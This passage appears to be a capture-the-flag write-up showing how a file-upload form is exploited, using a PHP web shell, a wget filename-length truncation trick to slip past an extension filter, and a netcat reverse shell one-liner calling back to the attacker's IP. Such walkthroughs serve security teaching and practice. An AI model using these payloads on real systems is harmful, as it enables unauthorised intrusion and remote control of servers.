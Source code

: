 {% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@echo '<?php $cmd = system($_REQUEST["cmd"]); ?>' > webShell.php@@
                                                                                                                    
┌──(kali㉿kali)-[/tmp/x]
└─$ @@sudo python3 -m http.server 80@@
@@@Serving HTTP on 0.0.0.0 port 80@@@ (http://0.0.0.0:80/) ...
{% endhighlight %}

After our Python web server has started, we go back to the browser and submit the URL `http://[IP]/webShell.php`, where `[IP]` is our IP address. Upon submitting this URL, we are informed that the file we are linking to has a bad file extension.

![badExtension](/assets/{{ imgDir }}/badExtension.png)

We can execute `mv webShell.php webShell.php.png` to append the extension `.png` to our web shell file. If we submit a URL to this file, the target successfully downloads it, meaning that `.png` is an allowed extension. We can also see what command the target host executed to download the file. We can conclude that the target uses the `wget` tool to download files. 

![uploadPNG](/assets/{{ imgDir }}/uploadPNG.png)

The `wget` tool has a built-in limitation on filename lengths of 236 characters. If a filename is longer than 236 characters, only the first 236 characters will be included in the filename. In addition, we can strongly suspect that the extension filter is applied before the file is downloaded to disk, since file extension filters are normally applied before a file is written to disk. As such, we can try to upload a file with a name that consists of 232 `A` characters followed by `.php.png`. This should pass the extension filter but save the file with the extension `.php`. If we submit a URL to this new file, we obtain the output below. 

![uploadWS](/assets/{{ imgDir }}/uploadWS.png)

From the output, we can see that the file was uploaded to the directory `/var/www/uploads/0318-1557_d779068805ae58df/` and with the original name except for the `.png` extension! We can verify that we have code execution by using the web shell to run a command such as `pwd`. This can be performed by visiting [http://10.10.10.73/uploads/0318-1557_d779068805ae58df/[232A].php?cmd=pwd](http://10.10.10.73/uploads/0318-1557_d779068805ae58df/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php?cmd=pwd) where `[232A]` should be 232 `A` characters. Upon visiting this link, the current directory is displayed.

![RCE](/assets/{{ imgDir }}/RCE.png)

The next step is to obtain an interactive shell on the target rather than a web shell. We can do this by starting a listener and executing the reverse shell payload below.
{% highlight none linenos %}
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.7 443 >/tmp/f
{% endhighlight %}

However, to prevent the web application from interpreting any special characters in the wrong way, we can URL-encode the payload. This can be performed using Burp Suite's Decoder tool as demonstrated below.

![urlEncode](/assets/{{ imgDir }}/urlEncode.png)
